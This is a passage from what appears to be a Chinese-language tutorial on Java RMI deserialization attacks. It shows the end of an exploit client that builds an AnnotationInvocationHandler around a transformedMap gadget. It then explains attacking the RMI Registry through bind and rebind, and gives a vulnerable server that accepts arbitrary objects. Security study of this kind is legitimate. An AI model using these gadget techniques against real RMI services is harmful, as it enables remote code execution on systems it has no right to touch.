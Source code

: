 ```java
        Object o=AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);
        return o;
    }
 
    public static void main(String[] args) throws Exception{
        new RMIClient().lookup();
    }
 
}
```

### 攻击Registry

一般Registry和Server是绑定在一起的，攻击Registry其实是攻击与Registry交互的几种方法。当Server的RegistryImpl_Skel对象调用了相应方法时，就有可能被攻击

****调用bind&rebind****

Server

```java
package learn.rmi.serialize;
 
import java.io.Serializable;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.UnicastRemoteObject;
import java.util.List;
 
public class RMIServer {
 
    public class RMICalc extends UnicastRemoteObject implements ICalc, Serializable {
        protected RMICalc() throws RemoteException{
            super();
        }
 
        @Override
        public Integer sum(List<Integer> lists) throws RemoteException {
            Integer result=0;
            for (Integer list : lists){
                result+=list;
            }
            return result;
        }
 
        @Override
        public Object RMI_Serialize(Object o) throws Exception {
            System.out.println("success");
            return o;
        }
    }
 
    private void register() throws Exception{
 
        RMICalc rmiCalc=new RMICalc();
        Registry registry = LocateRegistry.createRegistry(1099);
        registry.bind("rmi://127.0.0.1:1099/calc",rmiCalc);
        System.out.println("Registry运行中......");
    }
 
    public static void main(String[] args) throws Exception {
        new RMIServer().register();
    }
}
```